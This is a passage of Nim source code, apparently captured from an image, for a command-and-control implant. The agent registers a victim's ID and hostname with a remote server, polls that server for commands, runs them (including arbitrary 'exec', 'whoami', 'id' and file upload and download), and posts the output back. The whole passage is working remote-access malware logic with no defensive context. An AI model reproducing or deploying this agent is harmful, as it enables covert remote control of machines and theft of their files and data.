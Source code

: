     try:
        var client = newHttpClient(userAgent = keyed_header)
        client.headers = newHttpHeaders({ "Content-Type": "application/json" })
        var body = %*{
            "uid": uid,
            "hostname": hostname
        }
        discard(client.request(api_server & "api/agents/register", httpMethod = HttpPost, body = $body))
    except:
        echo "\U0001f923"
        quit(1)
    uid
    

# Check in with server and ask for commands
proc check_for_commands(): string =
    var client = newHttpClient(userAgent = keyed_header)
    let command_api = api_server & "api/agents/" & uid & "/command"
    let response = client.request(command_api, httpMethod = HttpGet)
    response.body

# Command handlers
proc command_handler(cmd: string): string =
    var split_cmd = cmd.split(" ")
    var run_cmd = split_cmd[0].strip()
    try:
        case run_cmd:
            of "whoami":
                result = whoami()
            of "exec":
                result = exec(cmd)
            of "id":
                result = id()
            of "upload":
                result = upload(split_cmd, uid, keyed_header, api_server)
            of "pwd":
                result = pwd()
            of "download":
                result = download(split_cmd, uid, keyed_header, api_server)
            of "get_hostname":
                result = get_hostname()
        return result
    except Exception as e:
        return "[x] Error: " & e.msg


# Send the results from a command
proc send_results(command_result: string): void =
    var client = newHttpClient(userAgent = keyed_header)
    client.headers = newHttpHeaders({ "Content-Type": "application/json" })
    var body = %*{
                "results": command_result
        } 
    discard(client.request(api_server & "api/agents/" & uid & "/command", httpMethod = HttpPost, body = $body))
